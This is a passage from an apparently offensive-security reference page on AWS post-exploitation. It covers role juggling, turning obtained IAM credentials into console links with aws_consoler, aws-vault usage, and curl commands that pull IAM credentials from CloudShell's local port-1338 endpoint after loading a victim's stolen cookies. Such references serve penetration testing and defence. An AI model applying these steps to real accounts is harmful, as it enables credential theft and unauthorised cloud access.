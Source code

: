 You can use this [**tool**](https://github.com/hotnops/AWSRoleJuggler/) to keep the juggling going:

```bash
./aws_role_juggler.py -h
usage: aws_role_juggler.py [-h] [-r ROLE_LIST [ROLE_LIST ...]]

optional arguments:
  -h, --help            show this help message and exit
  -r ROLE_LIST [ROLE_LIST ...], --role-list ROLE_LIST [ROLE_LIST ...]
```

### Post-Exploitation

#### From IAM Creds to Console

if you have managed to obtain some IAM credentials you might be interested on accessing the web console. You can **generate a web console link** with [https://github.com/NetSPI/aws\_consoler](https://github.com/NetSPI/aws\_consoler).

```bash
cd /tmp
python3 -m venv env
source ./env/bin/activate
pip install aws-consoler
aws_consoler [params...] #This will generate a link to login into the console
```

{% hint style="warning" %}
Ensure the IAM user has `sts:GetFederationToken` permission, or provide a role to assume.
{% endhint %}

#### aws-vault

[**aws-vault**](https://github.com/99designs/aws-vault) is a tool to securely store and access AWS credentials in a development environment.

```bash
aws-vault list
aws-vault exec jonsmith -- aws s3 ls # Execute aws cli with jonsmith creds
aws-vault login jonsmith # Open a browser logged as jonsmith
```

{% hint style="info" %}
You can also use **aws-vault** to obtain an **browser console session**
{% endhint %}

#### From Console to IAM Creds

If you manage to compromise some access to a web console (maybe you stole cookies and could't access the .aws folder), you can obtain some IAM token credentials for that user through **CloudShell**.

CloudShell exposes IAM credentials via an **undocumented endpoint on port 1338**. After loading session cookies from the victim into your browser, you can navigate to CloudShell and issue the following commands to get IAM credentials.

```bash
TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")
curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"
```
